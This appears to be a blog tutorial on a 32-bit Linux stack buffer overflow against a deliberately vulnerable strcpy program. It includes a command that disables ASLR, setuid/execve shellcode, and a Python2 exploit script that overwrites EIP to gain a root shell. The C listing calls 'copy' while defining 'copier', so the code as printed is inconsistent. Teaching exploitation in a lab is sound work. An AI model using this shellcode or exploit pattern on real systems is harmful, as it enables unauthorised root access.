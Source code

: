 ```yaml
---
title: "Stack-Buffer Overflow [Linux 32 Bit] (Part I)"
layout: single
excerpt: "In this article I teach how to create and use a buffer overflow exploit to gain access to a shell by abusing unsafe functions like strcpy, getenv etc. I also show how the binary works at a low level, the ESP and EIP registers and how to use tools like gdb or hexedit to edit hexadecimal binaries."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/154846533-363ec43b-7a02-4a8c-b997-dd499dd09fb0.jpg"
  teaser_home_page: true
  icon: 
categories:
  - Vulnearabilities
tags:
  - EIP
  - Buffer oveflow
  - ESP
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/154846533-363ec43b-7a02-4a8c-b997-dd499dd09fb0.jpg">
</p>

Buffer overflow occurs when the programmer does not sanitize the code of a program sufficiently. This allows the defined buffer to be exceeded and therefore certain registers to be targeted in order to inject `shellcode` and lead to the execution of arbitrary code in the system.

In this article we will take advantage of the unsafe `strcpy` function to overflow a defined buffer and thus overwrite the *ESP*, *EIP* registers to gain *RCE*. We will not have any kind of restrictions like ASLR (memory address randomization) or DEP (data execution prevention).

To disable ASLR is very easy, we send a 0 as *input* to `/proc/sys/kernel/randomize_va_space` and that's it.

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

To start we need a binary vulnerable to *BoF*, so I found this basic C script that makes use of `strcpy`.

```c
#include <string.h>
#include <stdio.h>
void main(int argc, char *argv[]) {
        copy(argv[1]);
        printf("Done!\n");
}
int copier(char *str) {
        char buffer[100];
        strcpy(buffer, str);
}
```

This script has no use, what it basically does is copy the first argument that we pass as *input* and save it in a buffer and print *Done* on the screen, the vulnerability is in the use of `strcpy`.

For compilation this must be in 32 bits, so it will be necessary to use the parameter `-m32` of `gcc`, otherwise it will create it in 64 bits.

![https://imgur.com/fn2Pckf.png](https://imgur.com/fn2Pckf.png)

![https://imgur.com/pzcdTJT.png](https://imgur.com/pzcdTJT.png)

> The parameters used in compilation are to disable some restrictions.

This generates an executable binary, so we try passing it an A to verify that it works.

![https://imgur.com/UdKB266.png](https://imgur.com/UdKB266.png)

Ok, that works, now we are going to use `gdb` to monitor the program usage at low level, we pass it the `-q` parameter to read symbols and run the `list` command to see the code.

![https://imgur.com/rRySz6h.png](https://imgur.com/rRySz6h.png)

We will make a `breakpoint` at line 10, since the vulnerability does not happen in the `main` function, we use the `break 10` command.

![https://imgur.com/P08ILaY.png](https://imgur.com/P08ILaY.png)

We pass 4 bytes as an argument to the program with the `run` command.

![https://imgur.com/bgUgHwh.png](https://imgur.com/bgUgHwh.png)

Once done, we use the `info registers` command to view the logs.

![https://imgur.com/25SPQqD.png](https://imgur.com/25SPQqD.png)

We list the `ESP` record with `x/40x $esp`.

![image](https://user-images.githubusercontent.com/69093629/154841169-af286bb4-b75b-48e7-b64e-cc44f38bd475.jpg)

As you can see, a memory address has been overwritten with the 4 As in ANSI.

Now, what happens if we pass the program more 100 As? Let's check it out.

![https://imgur.com/Jig6VcD.png](https://imgur.com/Jig6VcD.png)

A buffer overflow has occurred and the binary has crashed.

I have created a small Python script that prints more than 100 As on the screen and I have exported it as BoF.

```python
#!/usr/bin/python3
print("A"*116)
```
![https://imgur.com/ql9LNNA.png](https://imgur.com/ql9LNNA.png)

We pass the As and look at the ESP record.

![image (2)](https://user-images.githubusercontent.com/69093629/154843836-0299b369-0d73-4f69-9dbd-ed282d6a0113.jpg)

As you can see, all the A's that we passed to the binary are there, this has overwritten even the return address, we are going to modify the `return address` with `hexedit`, we execute `hexedit` + the name of the binary.

![https://imgur.com/yrbDTpc.png](https://imgur.com/yrbDTpc.png)

And we changed the last values.

![https://imgur.com/olJtCYE.png](https://imgur.com/olJtCYE.png)

Now we look at the ESP register again.

![image (3)](https://user-images.githubusercontent.com/69093629/154845769-4705cb24-ded4-4929-a108-cd7a7e1bfdf4.jpg)

The return address has changed, but it is in `little endian`, that is, backwards.

Now we are going to calculate the `offset`, that is, the A`s that we have to enter before the program corrupts. For this there is a tool called `pattern_create` which creates a special string for you to then compute the `offset` with `pattern_offset`.

I passed him the bytes in which he corrupted the program.

![https://imgur.com/6u3tOVD.png](https://imgur.com/6u3tOVD.png)

Once the string is created, we pass it to the program as an argument.

![https://imgur.com/6szLUpb.png](https://imgur.com/6szLUpb.png) 

We copy and paste the address it reports into `pattern_offset`.

![https://imgur.com/Rgoo3Rw.png](https://imgur.com/Rgoo3Rw.png)

There it is, the offset is 112 bytes. Now we will use NOPS to fill the missing bytes before the shellcode and keep the program flowing smoothly.

We need a `shellcode` to gain access with a Shell, for this I used the following 32-byte one.

```bash
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80
```

And I've created a small exploit in Python2 with the following code.

```python
#!/usr/bin/python2

nops = '\x90' * 64
shellcode = (
'\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2' +
'\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89' +
'\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
)
padding = 'A' * (112 - 64 - 32)
eip = "\xb0\xd3\xff\xff"
print nops + shellcode + padding + eip
```

What it does is generate 64 bytes of NOPS `x90` and save them in the variable NOPS, then I define another variable `shellcode` with the `shellcode`, redundancy aside, and in the variable `padding` I do the calculations by subtracting the 112 bytes of the `offset`, minus the 64 of the NOPS and the 32 of the `shellcode` and I create the chain of A's from the remaining number. In the EIP address we introduce one of the NOPS sled in `little endian` to avoid errors, since this will be pointing to the memory address of the instruction to be executed. And finally it would look something like this.

`\x90\x90.. → \x31\xc0\x89.. → AAAA.. → \xb0\xd3\xff\xff`

If we look at the result in hexadecimal with `hexedit` we will see something like this.

![https://imgur.com/0YAugr1.png](https://imgur.com/0YAugr1.png)

I export the exploit as `exp`.

![https://imgur.com/cPzxbeO.png](https://imgur.com/cPzxbeO.png)

And we do a `cat` to the exported file.

![https://imgur.com/KaYXfl8.png](https://imgur.com/KaYXfl8.png)

And we have gained a `root` shell on the system.
